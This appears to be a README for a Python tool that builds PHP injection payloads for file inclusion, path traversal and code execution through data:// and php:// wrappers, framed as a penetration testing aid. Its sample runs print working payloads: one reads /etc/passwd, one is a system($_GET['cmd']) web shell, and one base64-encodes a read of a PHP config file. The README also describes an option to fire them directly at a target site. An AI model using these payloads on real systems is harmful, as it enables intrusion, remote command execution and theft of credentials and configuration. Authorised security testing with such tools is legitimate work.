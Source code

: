 ## PHP Data Exfiltration Automation Tool

## Overview
This is an advanced penetration testing tool for automating the discovery and exploitation of PHP data exfiltration vulnerabilities in web applications. It allows ethical hackers and security researchers to efficiently test for issues like local file inclusion, remote code execution, path traversal etc.

The tool is written in Python and works on Linux platforms. It has an intuitive text-based interface to guide the user through generating optimized payloads for injection testing.
Installation


```
git clone https://github.com/MolCoteH/LFI-RFI
cd LFI-RFI
```
# Usage

## To start the tool, simply run:

```
python php-exfiltrate.py
```
# This will present an interactive menu-driven interface to configure payload options.

## The key steps are:

    Select the writing model (data://, php://filter etc.)
    Choose a mime-type for the data (text/plain, application/x-php etc.)
    Pick a built-in payload (file_get_contents, system command execution etc.)
    Set payload parameters like filenames, commands etc.
    The tool constructs and displays the complete payload
    Option to directly test the payload on a target site

## Payloads

The tool contains the following well-commented payloads spanning multiple exfiltration techniques:

    File Inclusion - Extract arbitrary files from the system
    Code Execution - Execute OS commands via backdoors like system()
    File Reads - Exfiltrate sensitive data like config files
    Path Traversal - Access files outside web directories
    Source Code Disclosure - Dump source code of application pages
    Protocol Bypasses - Use obscure data types to bypass whitelist
    PHP Wrapper Tests - Check for misconfigurations in wrappers like php://input

Users can also easily add custom payloads to the existing codebase.

## Sample Runs

Here are some sample runs showing practical usage:
# LFI Payload with /etc/passwd

```
python php-exfiltrate.py

Select model > 2. data://
Choose data type > 1. text/plain
Select payload > 4. file inclusion 
Enter filename > /etc/passwd

Generated payload:

data://text/plain,<?php echo file_get_contents('/etc/passwd');?>
```
# Get OS Shell with System Execution:
```
python php-exfiltrate.py

Select model > 1. data:
Choose data type > 2. application/x-php
Select payload > 2. system execution
Append command > &cmd=ls -la

Generated payload:  

data:application/x-php,<?php system($_GET['cmd']);?>&cmd=ls -la
```
# Exfiltrate PHP Config in Base64 Format
```
python php-exfiltrate.py

Select model > 2. data://  
Choose data type > 1. text/plain
Select payload > 8. base64 file read
Enter filename > /var/www/config.php

Generated payload:

data://text/plain;base64,PD9waHAgZWNobyBiYXNlNjRfZW5jb2RlKGZpbGVfZ2V0X2NvbnRlbnRzKCcvdmFyL3d3dy9jb25maWcucGhwJykpOz8+
```
This provides an overview of the key capabilities of the tool. It simplifies and automates the manual process of PHP penetration testing and vulnerability discovery. The modular design allows rapid enhancements as well.
